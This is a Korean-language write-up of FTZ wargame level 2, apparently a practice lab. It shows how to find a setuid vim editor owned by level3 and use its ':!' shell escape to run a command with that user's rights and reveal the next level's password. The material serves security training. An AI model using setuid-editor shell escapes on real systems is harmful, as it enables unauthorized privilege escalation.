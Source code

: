 PW : `hacker or cracker`

이번에도 hint 파일을 출력해보면 이렇게 뜬다.
```bash
[level2@ftz level2]$ cat hint


텍스트 파일 편집 중 쉘의 명령을 실행시킬 수 있다는데...
```

텍스트 파일 편집기중 vim 에디터에서 `!`를 입력하면 쉘 명령어를 실행 시킬 수 있다.

만약에 vim 에디터가 level3권한으로 실행이 된다면 어떨까?

저번에 사용한 `find`명령어로 `level3`권한으로 실행 되는 파일을 찾아보면
```bash
[level2@ftz level2]$ find / -user level3 2> /dev/null
/usr/bin/editor
[level2@ftz level2]$ ls /usr/bin/ -l | grep editor
-rwsr-x---    1 level3   level2      11651 Sep 10  2011 editor
```

그럼 editor 파일을 실행해 보면 일반적인 콘솔 화면이 뜬다.
```bash

~
~
~
~
~
~                              VIM - Vi IMproved
~
~                               version 6.1.320
~                           by Bram Moolenaar et al.
~                 Vim is open source and freely distributable
~
~                        Help poor children in Uganda!
~                type  :help iccf<Enter>       for information
~
~                type  :q<Enter>               to exit
~                type  :help<Enter>  or  <F1>  for on-line help
~                type  :help version6<Enter>   for version info
~
~
~
~
~
```
여기서 `:! my-pass` 명령을 입력하면 level3권한으로 명령어가 실행되지 않을까 생각해 보았다.


```bash

Level3 Password is "can you fly?".


shell returned 37

Hit ENTER or type command to continue
```
성공적으로 실행 되었다.


level3의 패스워드는 `can you fly?`이다.